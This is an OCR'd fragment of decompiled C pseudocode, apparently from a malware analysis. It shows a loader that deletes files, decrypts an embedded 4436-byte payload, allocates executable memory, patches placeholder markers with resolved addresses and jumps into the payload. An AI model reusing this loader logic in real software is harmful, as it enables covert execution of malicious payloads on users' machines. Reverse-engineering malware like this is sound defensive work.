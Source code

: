```c
    {
      Sleep(0x3E8u);
      DeleteFileA(ReturnedString);
    }
    DeleteFileA(Str);
  }
  ModuleHandleA = GetModuleHandleA(0);
  v15 = (int *)ExitProcess_Address_sub_10001000((PIMAGE_DOS_HEADER)ModuleHandleA);
  if ( v15 )
  {
    for ( i = 0; i < 4436; byte_1000300F[i] = ~v3 )
      v3 = decrypted_byte_10003010[i++];
    CurrentProcessId = GetCurrentProcessId();
    v5 = OpenProcess(8u, 0, CurrentProcessId);
    rwx_memory = (char *)VirtualAllocEx(v5, 0, 0x1354u, 0x3000u, PAGE_EXECUTE_READWRITE);
    if ( rwx_memory )
    {
      rwx_memory1 = rwx_memory;
      v8 = rwx_memory + 0x200;
      strcat(rwx_memory, Filename);
      strcat(rwx_memory, aTxt);
      strcat(rwx_memory + 0x100, Filename);
      qmemcpy(rwx_memory + 0x200, decrypted_byte_10003010, 0x1154u);
      v9 = *((_DWORD *)rwx_memory + 0x80);
      v10 = (int *)(rwx_memory + 0x204);
      v11 = 4436;
      while ( 1 )
      {
        v12 = *v10;
        if ( *v10 == 0x334455 )
          break;
        switch ( v12 )
        {
          case 0x223344:
            v13 = *v15;
            goto LABEL_20;
          case 0x445566:
            v13 = (int)&v8[v9 + 4];
            goto LABEL_20;
          case 0x556677:
            *v10 = (int)rwx_memory1;
            break;
          case 0x667788:
            v13 = (int)(rwx_memory1 + 0x100);
            goto LABEL_20;
        }
LABEL_21:
        v10 = (int *)((char *)v10 + 1);
        if ( --v11 <= 4 )
        {
          ((void (*)(void))(v8 + 4))();         // Execute memory from v8+4
          return 0;
        }
      }
      v13 = (int)v15;
LABEL_20:
      *v10 = v13;
      goto LABEL_21;
    }
  }
  return 0;
}
```